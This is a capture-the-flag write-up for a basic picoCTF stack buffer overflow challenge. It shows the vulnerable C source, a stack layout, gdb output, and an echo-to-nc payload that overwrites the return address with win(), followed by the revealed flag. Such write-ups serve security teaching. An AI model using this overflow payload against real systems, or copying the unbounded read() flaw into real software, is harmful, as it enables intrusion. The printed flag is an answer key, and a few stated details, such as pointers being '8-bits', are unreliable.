


## Description

The "secure" echo service welcomes you politely… but what if you don’t stay polite? Can you make it reveal the hidden flag? 

This was a basic buffer overflow challenge made by `YAHAYA MEDDY`

## Solution

This is a fairly basic challenge, the supplied code was:
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void win() {
    FILE *fp = fopen("flag.txt", "rb");
    if (!fp) {
        perror("[!] Failed to open flag.txt");
        return;
    }

    char buffer[128];
    size_t n = fread(buffer, 1, sizeof(buffer), fp);
    fwrite(buffer, 1, n, stdout);
    fflush(stdout);
    printf("\n");
    fclose(fp);
}

int main() {
    char buf[32]; 

    printf("Welcome to the secure echo service!\n");
    printf("Please enter your name: ");
    fflush(stdout);

    read(0, buf, 128);

    printf("Hello, %s\n", buf);
    printf("Thank you for using our service.\n");

    return 0;
}
```

So the program accepts the user's input, and then prints it out, and there is a `win` function that prints out the flag.

The vulnerability, is that the program accepts up to 128 bytes of user input, but the buffer it is stored in is only 32 bytes long, so we have 96 bytes to buffer overflow with.

The first part of a buffer overflow is to look at what is on the stack at the time you write to it.
Most static decompilers work for this, but I prefer `ghidra`, 


This shows that `local_28` (which is ghidra's name for the `buf` buffer) is at an offset of `-0x28` from the base of the frame (this functions section of the stack).
Next we run `file` on the compiled binary we were given to find if it is a 32-bit or a 64-bit binary:

```bash
$ file vuln    
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ea8d17256f06912c64bebf47f9ecf5a141aada81, for GNU/Linux 3.2.0, not stripped
```

As the binary is 64-bit, this means that pointers at 8-bits for this binary. As such, we can create an accurate mapping of what the stack looks like

| Stack Pointer (after) | Size | Name                      |
| --------------------- | ---- | ------------------------- |
| 0h                    | 8    | Return Address (RSP)      |
| 8h                    | 8    | Saved Frame Pointer (SFP) |
| 28h                   | 32   | local_28                  |
So in order to jump the program to the `win` function when it returns from `main`,  we need `32` bytes to fill up `local_28`, and the 8 bytes to fill up the `SFP`, before finally writing the payload to the `RSP` in order to execute `win`.

So the next step is to find the memory address of the `win` function, in order set the `RSP` to it. We can do this using a debugger such as `gdb`.

```txt
$ gdb vuln 
GNU gdb (Debian 17.1-3) 17.1
Copyright (C) 2025 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) p win
$1 = {<text variable, no debug info>} 0x401256 <win>
```

There, I opened up the binary in `gdb`, then ran `p win` which returns the memory address of the function, and as we saw from before with the `file` command not using `PIE`, that means that every time the program runs, the `win` function will always be there.

So now we can just `nc` into the remote instance and supply the data.
Now as it is a `64-bit` executable, the provided memory address must be 64 bits long, so we need 5 bytes of padding of all `0`s at the start, and as this is a little-endian binary, the memory address must be provided backwards byte-wise.

```bash
$ echo "1234567890123456789012345678901212345678\x56\x12\x40\x00\x00\x00\x00\x00" | nc mysterious-sea.picoctf.net 62065
Welcome to the secure echo service!
Please enter your name: Hello, 1234567890123456789012345678901212345678V@
Thank you for using our service.
picoCTF{3ch0_s3rv1c3_br34k5_d51d6163}
```



And that is the flag output `picoCTF{3ch0_s3rv1c3_br34k5_d51d6163}`

There was also a sequel to this challenge called [Echo Escape 2](../echo-escape-2)
